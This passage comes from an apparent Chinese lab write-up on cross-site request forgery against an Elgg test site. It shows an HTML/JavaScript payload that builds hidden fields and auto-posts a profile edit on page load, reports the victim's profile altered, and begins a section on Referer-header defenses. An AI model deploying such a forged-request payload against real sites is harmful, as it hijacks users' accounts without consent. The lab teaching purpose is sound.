```html
                fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
                fields += "<input type='hidden' name='location' value='China'>";
                fields += "<input type='hidden' name='accesslevel[location]' value='2'>";
                fields += "<input type='hidden' name='guid' value='42'>";
                var url = "http://www.csrflabelgg.com/action/profile/edit";

                post(url,fields);
            }

            window.onload = function() { csrf_hack(); }
        </script>
    </body>
</html>
```

实验结果：给受害者添加了一个朋友，修改了她的主页信息。

![image-20200704114643865](csrf.assets/image-20200704114643865.png)

## 4. 防御措施

**web服务器无法判断，一个链接是否为cross-site。浏览器可以判断一个链接是否为crose-site;但是浏览器并没有将该信息传递给服务器。所以需要搭建浏览器和服务器之间的"桥梁"。**

### 4.1 使用referer Header

参考文章：[HTTP Referer 教程](http://www.ruanyifeng.com/blog/2019/06/http-referer.html)
